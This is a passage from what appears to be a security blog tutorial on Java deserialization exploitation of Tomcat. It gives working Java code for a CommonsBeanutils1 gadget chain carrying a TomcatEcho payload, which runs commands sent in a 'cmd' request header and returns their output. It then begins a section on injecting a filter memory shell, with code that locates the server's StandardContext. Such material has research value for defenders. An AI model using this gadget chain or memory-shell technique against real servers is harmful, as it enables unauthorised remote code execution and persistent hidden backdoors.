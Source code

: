 Build CB1 gadget:
```java
final Object templates = Gadgets.createTemplatesImpl(null, TomcatEcho.getBytes());  
// mock method name until armed  
final BeanComparator comparator = new BeanComparator("lowestSetBit");  
  
// create queue with numbers and basic comparator  
final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);  
// stub data for replacement later  
queue.add(new BigInteger("1"));  
queue.add(new BigInteger("1"));  
  
// switch method called by comparator  
Reflections.setFieldValue(comparator, "property", "outputProperties");  
  
// switch contents of queue  
final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");  
queueArray[0] = templates;  
queueArray[1] = templates;  
  
return queue;
```

Run the vulnerable servlet in the previous section, add a `cmd` header, and we can get the result in response:
![[Pasted image 20231025153102.png]]

There is a more general echo method in the `TomcatEchoTemplate` class of ysoserial, which performs simultaneously.

### Inject memshell via deserialization vul
We have studied the approach to obtaining echo of deserialization vulnerability. In this section, I will present how to inject a filter memory shell by deserialization vulnerability to Tomcat server and I will use the same servlet environment as previous section.
To inject a filter memory shell, it necessary to access a `StandardContext` object at first. We can find it by using `java-object-searcher`:
```java
List<Keyword> keys = new ArrayList<>();  
keys.add(new Keyword.Builder().setField_type("ServletContext").build());  
keys.add(new Keyword.Builder().setField_type("ServletRequest").build());  
SearchRequstByBFS searcher = new SearchRequstByBFS(Thread.currentThread(), keys);  
searcher.setIs_debug(false);  
searcher.setMax_search_depth(20);  
searcher.setReport_save_path("D:\\Files\\Java_WorkSpace\\Webapp-for-tomcat9\\webapp-for-tomcat9");  
searcher.searchObject();
```

I find only one chain:
```
TargetObject = {org.apache.tomcat.util.threads.TaskThread}   
  ---> contextClassLoader = {org.apache.catalina.loader.ParallelWebappClassLoader}   
    ---> resources = {org.apache.catalina.webresources.StandardRoot}   
     ---> context = {org.apache.catalina.core.StandardContext}   
	   ---> noPluggabilityServletContext = {org.apache.catalina.core.StandardContext$NoPluggabilityServletContext}
```


[^1]: [探索高版本 JDK 下 JNDI 漏洞的利用方法 - 跳跳糖](https://tttang.com/archive/1405/#toc_0x02-xxe-rce)
[^2]: [半自动化挖掘request实现多种中间件回显 | 回忆飘如雪](https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)
[^3]: [Java反序列化回显学习之Tomcat通用回显 - SecPulse.COM | 安全脉搏](https://www.secpulse.com/archives/200930.html)